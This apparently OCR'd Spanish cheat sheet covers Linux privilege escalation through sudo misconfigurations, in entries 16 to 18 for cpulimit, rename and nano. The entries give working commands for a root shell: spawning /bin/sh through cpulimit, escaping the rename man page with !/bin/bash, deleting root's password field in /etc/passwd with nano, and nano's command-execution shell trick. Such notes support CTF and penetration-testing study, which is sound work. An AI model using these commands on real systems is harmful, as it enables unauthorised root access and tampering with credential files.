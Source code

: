 Salimos de bettercap, luego, hacemos un /bin/bash -p y ya seremos usuarios root !!!

-------------------------------------------------------------------------------

16.-	/usr/bin/cpulimit 

sudo cpulimit -l 100 -f /bin/sh

ejemplo:

(red) NOPASSWD: /usr/bin/cpulimit

sudo -u red cpulimit -l 100 -f /bin/sh
-------------------------------------------------------------------------------

17.-	/usr/bin/rename

páginas man

(root) NOPASSWD: /usr/bin/rename

forma de verificar que es un página man:

sudo -u root /usr/bin/rename -h

resultado del comando:

-m, --man
            Manual: print manual page.

sudo -u root /usr/bin/rename -m

luego remplazamos lo que está subrayado por:

!/bin/bash , presionamos enter y listo somos root !!!

-------------------------------------------------------------------------------

18.-	/usr/bin/nano

(TAMBIÉN APLICA PARA SUID)

(ALL) NOPASSWD: /usr/bin/nano

si hacemos su root, no pedirá contraseña

ahora hacemos sudo /usr/bin/nano /etc/passwd
elminamos la X

root:x:0:0:root:/root:/bin/bash

como debe de quedar:
root::0:0:root:/root:/bin/bash

luego hacemos su root, no me pide contraseña y listo somos root.

Otra forma:

User www-data may run the following commands on be6e17c3b556:
    (firsthacking) NOPASSWD: /usr/bin/nano

sudo -u firsthacking /usr/bin/nano
ctrl R ctrl X
reset; sh 1>&0 2>&0 -> lo escribimos en Command to execute
